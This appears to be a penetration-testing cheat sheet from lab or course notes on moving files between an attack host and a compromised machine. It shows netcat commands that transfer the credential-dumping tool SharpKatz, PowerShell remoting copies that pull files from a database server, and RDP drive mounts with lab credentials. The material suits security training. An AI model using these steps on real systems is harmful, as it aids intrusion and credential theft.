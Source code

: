 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Miscellaneous File Transfer Methods

### File Transfer with Netcat and Ncat

NetCat - Compromised Machine - Listening on Port 8000

```
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

Netcat - Attack Host - Sending File to Compromised machine

```
michal86@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

Attack Host - Sending File as Input to Netcat

```
michal86@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

Compromised Machine Connect to Netcat to Receive the File

```
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

**PowerShell Remoting**

From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

```
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Create a PowerShell Remoting Session to DATABASE01

{% code fullWidth="true" %}
```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
{% endcode %}

Copy DATABASE.txt from DATABASE01 Session to our Localhost

{% code fullWidth="true" %}
```
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
{% endcode %}

### RDP

Mounting a Linux Folder Using rdesktop

{% code overflow="wrap" fullWidth="true" %}
```
michal86@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
{% endcode %}

Mounting a Linux Folder Using xfreerdp

{% code overflow="wrap" fullWidth="true" %}
```
michal86@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
{% endcode %}
